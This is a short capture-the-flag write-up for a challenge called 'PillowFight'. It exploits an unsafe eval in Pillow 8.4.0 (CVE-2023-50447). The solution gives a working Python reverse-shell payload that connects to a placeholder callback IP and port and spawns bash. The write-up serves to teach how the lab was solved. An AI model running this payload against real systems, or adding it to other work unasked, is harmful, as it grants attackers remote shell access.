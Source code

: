 # PillowFight

## Description

<small>Author: @HuskyHacks</small><br><br>PillowFight uses <i><b>advanced AI/MLRegressionLearning* </i></b> to combine two images of your choosing <br><br>
<small> *note to investors this is not techically true at the moment we're using a python library but please give us money and we'll deliver it we promise. </small> <br><br> <b>Press the <code>Start</code> button on the top-right to begin this challenge.</b>


## Solution

This was a live service that utilized Pillow version 8.4.0 for combining images. It exposed a simple API that let the user exploit a known vulnerability in an unsafe `eval` that Pillow has in its library.

This writeup has some more information about the vulnerability:
https://duartecsantos.github.io/2024-01-02-CVE-2023-50447/


They had some interactive API documents set up, so it was really straightforward to exploit.

![pillow_fight_1.png](/images/pillow_fight_1.png)

Just add a reverse shell as the expression to evaluate: 
```
exec('import os,pty,socket;s=socket.socket();s.connect(("<CALLBACK_IP>",<CALLBACK_PORT>));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")')
```

